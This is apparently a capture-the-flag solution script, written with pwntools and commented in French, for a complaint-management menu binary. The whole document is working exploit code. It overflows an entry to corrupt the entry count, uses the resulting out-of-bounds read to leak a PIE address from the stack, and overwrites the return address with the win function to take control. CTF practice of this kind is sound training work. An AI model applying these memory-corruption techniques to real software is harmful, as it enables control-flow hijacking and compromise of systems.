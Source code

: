 ```py

def launch():
    if args.REMOTE:
        l = launch_remote
    else:
        l = launch_local
    with context.local(log_level=logging.ERROR):
        l()
    if args.POW:
        solve_pow()

def getb(d, a, b):
    a_ = d.find(a)
    if a_ == -1 or a == b"": a_ = 0
    b_ = d.find(b, a_+len(a))
    if b_ == -1 or b == b"": b_ = len(d)
    return d[a_+len(a):b_]

# ================================================================
# EXPLOIT HERE
# ================================================================

with context.local(log_level=logging.ERROR):
    exe = ELF(file)
    libc = ELF("./libc.so.6")

tries = 0
# tries_prog = log.progress("Tries")
def exploit():
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
        recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks
    def quit():
        choice(0)
    
    for _ in range(5): # On ajoute 5 plaintes
        add(b"a")

    # On modifie la dernière pour réécrire nombre_plainte et obtenir un "Out of bound"
    edit(4, b"A"*0x10 + p64(0x20)[:5])

    leaks = show() # On utilise le "Out of bound" pour leak des valeurs de la stack
    exe.address = u64(leaks[0xc]) - 0x3d88 # On leak une adresse du binaire (PIE leak) donc on connait l'adresse de win
    show_leak("exe", exe.address)

    edit(6, b"A"*8 + p64(exe.sym.win+5)) # On réécrire l'adresse de retour de main_logic par celle de win+5 pour éviter les problèmes de stack pas aligné.
    quit() # On quitte le menu pour sauter sur win+5

    io.interactive() # le flag
```